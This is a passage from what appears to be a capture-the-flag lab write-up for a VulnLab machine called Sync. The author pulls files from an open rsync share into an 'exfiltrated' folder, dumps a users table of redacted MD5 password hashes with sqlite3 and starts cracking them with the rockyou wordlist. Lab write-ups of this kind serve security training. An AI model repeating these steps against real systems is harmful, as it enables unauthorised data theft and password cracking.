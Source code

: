```
```

We would see that there is an interesting file `httpd/db/site.db` which may contain some credentials, so let's get that file along with the other files.

```
syl@sylsec:~/vulnlab/Sync$ rsync -chavzP --stats rsync://10.10.64.96/httpd/ ./exfiltrated/
receiving incremental file list
./
db/
db/site.db
         12,29K 100%   11,72MB/s    0:00:00 (xfr#1, to-chk=3/8)
migrate/
www/
www/dashboard.php
          1,72K 100%    1,64MB/s    0:00:00 (xfr#2, to-chk=2/8)
www/index.php
          2,31K 100%    2,21MB/s    0:00:00 (xfr#3, to-chk=1/8)
www/logout.php
            101 100%   98,63kB/s    0:00:00 (xfr#4, to-chk=0/8)

Number of files: 8 (reg: 4, dir: 4)
Number of created files: 7 (reg: 4, dir: 3)
Number of deleted files: 0
Number of regular files transferred: 4
Total file size: 16,43K bytes
Total transferred file size: 16,43K bytes
Literal data: 16,43K bytes
Matched data: 0 bytes
File list size: 278
File list generation time: 0,001 seconds
File list transfer time: 0,000 seconds
Total bytes sent: 119
Total bytes received: 2,25K

sent 119 bytes  received 2,25K bytes  1,58K bytes/sec
total size is 16,43K  speedup is 6,95
```

Now, let's run **sqlite3**.

```
syl@sylsec:~/vulnlab/Sync$ sqlite3 ./exfiltrated/db/site.db 
SQLite version 3.37.2 2022-01-06 13:25:41
Enter ".help" for usage hints.
sqlite> .tables
users
sqlite> select * from users;
1|admin|76<REDACTED>
2|triss|a0<REDACTED>
sqlite> 
```

We would gather those users and hashes that we need to crack. Initially, I ran those md5 hashes through the `rockyou.txt` list, but they didn't match anything, so I was curious why and went to look at the source code. 
